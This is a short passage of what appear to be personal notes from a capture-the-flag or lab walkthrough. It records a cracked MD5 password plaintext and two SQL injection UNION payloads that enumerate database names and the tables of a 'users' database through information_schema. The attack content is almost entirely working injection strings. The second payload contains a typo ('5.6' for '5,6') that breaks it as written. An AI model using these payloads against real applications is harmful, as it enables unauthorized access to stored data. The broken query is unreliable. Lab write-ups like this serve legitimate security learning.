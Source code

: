 The plaintext of md5 hash was `transorbital1`

![](/assets/obsidian/5b76f15cb0434822ffcb0c1a887bac27.png)

List databases

```sql
' union all select 1,2,3,4,5,6,group_concat(schema_name) FROM information_schema.schemata; -- -
```

![](/assets/obsidian/47779947b1a00874978b8d5104dacb39.png)

Get tables from database `users`

```sql
' union all select 1,2,3,4,5.6,group_concat(table_name) FROM information_schema.tables where table_schema = "users"; -- -
```
